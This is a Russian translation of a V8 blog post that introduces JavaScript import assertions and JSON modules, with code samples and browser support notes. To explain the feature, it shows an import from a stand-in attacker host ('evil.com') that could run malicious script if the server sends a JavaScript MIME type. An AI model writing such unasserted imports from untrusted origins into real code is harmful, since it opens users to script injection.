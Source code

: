 ```yaml
---
title: "Импорт утверждений"
author: "Дэн Кларк ([@dandclark1](https://twitter.com/dandclark1)), уверенный импортер утверждений"
avatars: 
  - "dan-clark"
date: 2021-06-15
tags: 
  - ECMAScript
description: "Импорт утверждений позволяет заявлениям импорта модулей включать дополнительную информацию вместе со спецификатором модуля"
tweet: ""
---
```


Новая функция [импорта утверждений](https://github.com/tc39/proposal-import-assertions) позволяет заявлениям импорта модулей включать дополнительную информацию вместе со спецификатором модуля. Первоначальное использование этой функции — это возможность импортировать JSON-документы в качестве [JSON-модулей](https://github.com/tc39/proposal-json-modules):

<!--truncate-->
```json
// foo.json
{ "answer": 42 }
```

```javascript
// main.mjs
import json from './foo.json' assert { type: 'json' };
console.log(json.answer); // 42
```

## Предыстория: JSON-модули и MIME-тип

Естественный вопрос заключается в том, почему JSON-модуль нельзя просто импортировать вот так:

```javascript
import json from './foo.json';
```

Веб-платформа проверяет MIME-тип ресурса модуля на соответствие перед его выполнением, и теоретически этот MIME-тип можно было бы использовать для определения, обрабатывать ли ресурс как JSON или как JavaScript-модуль.

Однако, существует [проблема безопасности](https://github.com/w3c/webcomponents/issues/839), связанная с использованием только MIME-типа.

Модули могут импортироваться с другого домена, и разработчик может импортировать JSON-модуль из стороннего источника. Это может показаться относительно безопасным, даже если источник не доверен, при условии, что JSON правильно очищен, так как импорт JSON не выполняет скрипт.

Однако, сторонний скрипт на самом деле может выполниться в этом сценарии, потому что сервер стороннего источника может неожиданно ответить типом MIME для JavaScript и вредоносным JavaScript-кодом, запустив его в домене импортера.

```javascript
// Выполняет JavaScript, если злоумышленник отвечает
// MIME-типом JavaScript (например, `text/javascript`)!
import data from 'https://evil.com/data.json';
```

Расширения файлов не могут использоваться для определения типа модуля, потому что они [не являются надежным индикатором типа контента в интернете](https://github.com/tc39/proposal-import-assertions/blob/master/content-type-vs-file-extension.md). Вместо этого мы используем импорт утверждений для указания ожидаемого типа модуля и предотвращения такой проблемы повышения привилегий.

Когда разработчик хочет импортировать JSON-модуль, он должен использовать импорт утверждений, чтобы указать, что это должен быть JSON. Импорт завершится неудачей, если MIME-тип, полученный из сети, не соответствует ожидаемому типу:

```javascript
// Завершается неудачей, если злоумышленник отвечает MIME-типом, не являющимся JSON.
import data from 'https://evil.com/data.json' assert { type: 'json' };
```

## Динамический `import()`

Импорт утверждений также может передаваться в [динамический `import()`](https://v8.dev/features/dynamic-import#dynamic) с помощью нового второго параметра:

```json
// foo.json
{ "answer": 42 }
```

```javascript
// main.mjs
const jsonModule = await import('./foo.json', {
  assert: { type: 'json' }
});
console.log(jsonModule.default.answer); // 42
```

Содержимое JSON является экспортом по умолчанию модуля, поэтому оно доступно через свойство `default` объекта, возвращенного из `import()`.

## Заключение

В настоящее время единственное указанное использование импорт утверждений — это для указания типа модуля. Однако, эта функция была разработана с учетом возможности использования произвольных пар ключ/значение, поэтому в будущем могут быть добавлены дополнительные способы ограничения импорта модулей.

Между тем, JSON-модули с синтаксисом новых утверждений импорта доступны по умолчанию в Chromium 91. [Модульные скрипты CSS](https://chromestatus.com/feature/5948572598009856) также скоро появятся, используя тот же синтаксис утверждений для типа модуля.

## Поддержка импорт утверждений

<feature-support chrome="91 https://chromestatus.com/feature/5765269513306112"
                 firefox="no"
                 safari="no"
                 nodejs="no"
                 babel="yes https://github.com/babel/babel/pull/12139"></feature-support>
